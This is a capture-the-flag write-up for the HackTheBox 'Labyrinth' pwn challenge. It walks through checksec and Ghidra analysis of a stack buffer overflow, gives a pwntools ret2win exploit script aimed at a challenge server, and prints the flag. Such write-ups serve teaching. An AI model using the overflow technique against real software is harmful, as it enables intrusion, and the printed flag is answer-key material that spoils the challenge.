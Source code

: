 # Labyrinth WriteUp by Om Honrao (@Inv1s1bl3#7047)

## Challenge Description
```
You find yourself trapped in a mysterious labyrinth, with only one chance to escape. Choose the correct door wisely, for the wrong choice could have deadly consequences.
```

## Challenge Files
```
- pwn_labyrinth.zip
    ./challenge
    .   /glibc
            ./ld-linux-x86-64.so.2
            ./libc.so.6
        ./flag.txt
        ./labyrinth
```
## Challenge Solution
We start from basic analysis of binary with `checksec` and `file` command.
```bash
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'./glibc/'
```

No PIE and Canary hmm there are chances of BOF Attack and indeed there is a BOF attack.

Lets see the decompiled code in ghidra

```c
{
  int cmp;
  char *__s;
  char userbuf [32];
  ulong door_num;

  setup();
  banner();
  userbuf._0_8_ = 0;
  userbuf._8_8_ = 0;
  userbuf._16_8_ = 0;
  userbuf._24_8_ = 0;
  fwrite("\nSelect door: \n\n",1,0x10,stdout);
  for (door_num = 1; door_num < 0x65; door_num = door_num + 1) {
    if (door_num < 10) {
      fprintf(stdout,"Door: 00%d ",door_num);
    }
    else if (door_num < 100) {
      fprintf(stdout,"Door: 0%d ",door_num);
    }
    else {
      fprintf(stdout,"Door: %d ",door_num);
    }
    if ((door_num % 10 == 0) && (door_num != 0)) {
      putchar(10);
    }
  }
  fwrite("\n>> ",1,4,stdout);
  __s = (char *)malloc(0x10);
  fgets(__s,5,stdin);
  cmp = strncmp(__s,"69",2);
  if (cmp != 0) {
    cmp = strncmp(__s,"069",3);
    if (cmp != 0) goto LAB_004015da;
  }
  fwrite("\nYou are heading to open the door but you suddenly see something on the wall:\n\n\"Fly li ke a bird and be free!\"\n\nWould you like to change the door you chose?\n\n>> "
         ,1,0xa0,stdout);
  fgets(userbuf,0x44,stdin);
LAB_004015da:
  fprintf(stdout,"\n%s[-] YOU FAILED TO ESCAPE!\n\n",&DAT_00402541);
  return 0;
}
```

In short the code does the following.

1.Asks us to select a door
2.Prints the 100 door choices
3.Waits for us to input the door
4.Compares our input against "69" or "069".
5.If input is correct we goto 6. Otherwise we go to 8
6.Asks us if we'd like to change the door
7.Waits for our input
8.Tells us we failed to escaped
9.Exits

It becomes apparent that we first should provide the door number 69 to pass the first check.

The 2nd choice has a buffer overflow inside of it, as it's trying to read 0x44 into a 0x20 sized buffer.

Looking further into the decompilation, we can also see a function called escape_plan which is never called and we can call this as win function as it prints the flag.

So we can say we have Ret2Win exploit.. Lets get the offset first i use pwndbg to do so because its easy to use and gives the offset of buffer quite faster in my opinion.

I created a cyclic pattern to enter and i can see this at ret funtion.
```bash
 ► 0x401602 <main+509>    ret    <0x6161616161616168>
```
Which is `haaaaa` in cyclic pattern because it reads it in reversed manner so we get our offset right which is 0x38. Cool now lets make the script!

```python
from pwn import *

p = remote("165.232.108.200", 30695 )
#p = process("./labyrinth_patched")
#gdb.attach(p,'''''')
p.sendline('69')

win = 0x0000000000401255
payload = b"A"*0x38 +  p64(win+1)

p.sendline(payload)

p.interactive()
```

I don't think i should explain the code because it is quite clear that it just goes till the return address and writes the address of win function and then we get the flag.

## Flag
```
HTB{3sc4p3_fr0m_4b0v3}
```